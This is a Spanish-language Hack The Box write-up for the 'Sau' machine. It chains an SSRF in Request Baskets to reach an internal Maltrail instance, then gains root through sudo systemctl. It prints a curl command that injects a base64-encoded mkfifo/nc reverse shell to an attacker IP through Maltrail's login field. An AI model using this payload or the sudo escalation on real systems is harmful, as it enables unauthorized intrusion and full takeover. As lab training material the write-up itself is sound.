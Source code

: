 ```yaml
---
title: 'Sau'
date: 2024-01-06T12:16:15-03:00
permalink: /posts/htb/:title/
categories: ["Writeups", "HTB"]
tags: ['Linux', 'SSRF', 'RCE', 'Requests Baskets', 'CVE-2023-27163', 'Maltrail']
image:
  path: /assets/img/htb/sau/sau-0.png
---
```


## Introducción

En este post estaremos resolviendo la máquina [Sau](https://app.hackthebox.com/machines/Sau) de la plataforma Hack The Box. Esta máquina presenta una versión de **Request Baskets** vulnerable a SSRF (Server Side Request Forgery) identificada como **CVE-2023-27163**. Al explotar esta vulnerabilidad, logramos acceder a una instancia de **Maltrail** que es vulnerable a RCE (Remote Command Execution) la cual no requiere autenticación, permitiéndonos obtener una reverse shell en la máquina victima con el usuario **puma**. Posteriormente, aprovechamos una mala configuración de **sudo** para escalar nuestros privilegios y obtener un shell como el usuario root.

## Reconocimiento

Comenzamos lanzando una traza ICMP a la máquina objetivo para comprobar que tengamos conectividad.

![Reconocimento usando el comando ping](/assets/img/htb/sau/sau-1.png)

Vemos que responde al envío de nuestro paquete, verificando de esta manera que tenemos conectividad. Por otra parte, confirmamos que estamos frente a una máquina Linux basandonos en el TTL (Time To Live), en este caso 64.

## Enumeración

### Descubrimiento de puertos abiertos

Realizamos un escaneo con `nmap` para descubrir que puertos TCP se encuentran abiertos en la máquina víctima.

![Escaneo de puertos con nmap](/assets/img/htb/sau/sau-2.png)

Parámetros utilizados:

- `-sS`: Realiza un TCP SYN Scan para escanear de manera sigilosa, es decir, que no completa las conexiones TCP con los puertos de la máquina víctima.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`).
- `--min-rate 5000`: Establece el número mínimo de paquetes que nmap enviará por segundo.
- `-Pn`: Desactiva el descubrimiento de host por medio de ping.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.
- `-oG`: Determina el formato del archivo en el cual se guardan los resultados obtenidos. En este caso, es un formato _grepeable_, el cual almacena todo en una sola línea. De esta forma, es más sencillo procesar y obtener los puertos abiertos por medio de expresiones regulares, en conjunto con otras utilidades como pueden ser grep, awk, sed, entre otras.

Como podemos observar, el resultado del escaneo nos presenta 4 puertos. Donde el puerto `22` y `55555` estan abiertos y por otra parte los puertos `80` y `8338` estan filtrados.

### Enumeración de versión y servicio

![Descubrimiento de versión y servicio con nmap](/assets/img/htb/sau/sau-3.png)

Lanzamos una serie de script básicos de enumeración propios de nmap, para conocer la versión y servicio que esta corriendo bajo los puertos abiertos determinados anteriormente.

Parámetros utilizados:

- `-sCV` Es la combinación de los parámetros `-sC` y `-sV`. El primero determina que se utilizarán una serie de scripts básiscos de enumeración propios de nmap, para conocer el servicio que esta corriendo en dichos puertos. Por su parte, el segundo parámetro permite conocer más acerca de la versión de ese servicio.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`)
- `-oN`: Determina el formato del archivo en el cual se guardan los resultados obtenidos, junto con el nombre del archivo `targeted`. En este caso, utiliza el formato por defecto de nmap.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.

Solo por motivos de comodidad, agregamos al archivo `/etc/hosts` el dominio `sau.htb` para que al apuntar a este nos resuelva la ip de la máquina víctima.

```bash
❯ echo "10.10.11.224 sau.htb" | tee -a /etc/hosts
```
## Explotación de Request Baskets (SSRF)

Accedemos al sitio web que corre bajo el puerto 55555, podemos ver que la aplicación web es [Request Baskets](https://rbaskets.in/web) en su versión `1.2.1`.

![Requests Basktes](/assets/img/htb/sau/sau-4.png)

Si hacemos una búsqueda un Google, encontramos que esta versión es vulnerable a SSRF (Server Side Request Forgery) [CVE-2023-27163](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3), la cual afecta al componente de la api de Request Baskets `/api/baskets/{name}`.
Esto quiere decir, que esta vulnerabilidad permite a los atacantes acceder a recursos de red e información sensible mediante una solicitud API manipulada.

![New Baskte](/assets/img/htb/sau/sau-5.png)

Si creamos una nueva cesta, vemos que en principio esta vacia. Pero si realizamos solicitudes a la url `http://sau.htb:55555/kc75t4` como se nos indica, notamos que los detalles de la solicitudes son listados en el panel.

![Detalles de solicitud](/assets/img/htb/sau/sau-6.png)

Vemos también que podemos realizar algunas configuraciones, cambiando opciones como `Forward URL`.

Si tenemos en cuenta nuestro escaneo inicial de puertos, podemos recordar que el puerto `80` de la máquina victima estaba filtrado. Por lo tanto, podemos probar apuntar a ese puerto de la máquina, indicando como **Forward URL** el localhost (`http://127.0.0.1`). También debemos marcar la casilla `Proxy Response`, para que nos redirija las respuestas desde la URL de reenvío (en este caso el localhost).

![Configuración](/assets/img/htb/sau/sau-7.png)

Si ahora accedemos a la url `http://sau.htb:55555/kc75t4`, podemos notar que logramos acceder a un sitio web que en principio no teniamos acceso.
De esta manera, logramos aprovecharnos de la vulnerabilidad SSRF, para acceder a un sitio interno.

![Configuración](/assets/img/htb/sau/sau-8.png)

## Explotación de Maltrail - (RCE)

Podemos apreciar en el pie de página de la web, que lo que esta corriendo bajo el puerto 80 es la aplicación **Maltrail** en su versión **v0.53**.

Al investigar un poco sobre Maltrail en esta versión especifica, podemos notar que es vulnerable a RCE (Remote Code Execution) [Maltrail v0.53](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/).

![Mailtrail v0.53](/assets/img/htb/sau/sau-9.png)

## Reverse Shell - `puma`

Teniendo en cuenta que la aplicación es vulenrable a **RCE**, lancemos directamente una reverse shell para ganar acceso al sistema.

En primer lugar, creamos el payload a enviar.

![Reverse Shell](/assets/img/htb/sau/sau-10.png)

Luego, nos ponemos en escucha con `nc` por el puerto 4444.

Enviamos la reverse shell usando `curl`.

```bash
curl http://sau.htb:55555/kc75t4r/login --data 'username=;`echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjEwLjE0LjYyIDQ0NDQgPi90bXAvZgo=" | base64 -d | sh`'
```

De esta forma, ganamos acceso al sistema como el usuario `puma`.

![Reverse Shell](/assets/img/htb/sau/sau-11.png)

Hacemos un tratamiento de la tty para tener una terminal más interactiva:

- `script /dev/null -c bash`
- CTRL + Z
- `stty raw -echo; fg`
- `reset xterm`
- `export TERM=xterm`
- `export SHELL=bash`
- `stty rows <rows> columns <columns>`

Leemos el flag del usuario.

![Flag del usuario](/assets/img/htb/sau/sau-12.png)

## Escalación de privilegios

Al realizar una enumeración del sistema, observamos que tenemos la capacidad de ejecución con privilegios **sudo** sin necesidad de proporcionar contraseña. Esto nos permite utilizar la herramienta `systemctl` y verificar el estado del servicio `trail.service`.

![Enumeración del sistema](/assets/img/htb/sau/sau-13.png)

Si realizamos una búsqueda en [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo), podemos ver que se puede abusar de este comando utilizando `!sh` para obtener un shell. 

![Escalada de privilegios](/assets/img/htb/sau/sau-14.png)

Esto sucede, debido a que `systemctl` utiliza `less` para mostrar el estado de un servicio.

![Escalada de privilegios](/assets/img/htb/sau/sau-15.png)

Por ultimo, leemos el flag del usuario `root`.

![Flag del usuario root](/assets/img/htb/sau/sau-16.png)

De esta forma, llegamos al final del Write-up de la máquina Sau.

Espero que los conceptos hayan quedado claros. Si has llegado hasta este punto y aún tienes dudas, te recomiendo volver a realizar la máquina.

Gracias por tu lectura!

Happy Hacking!
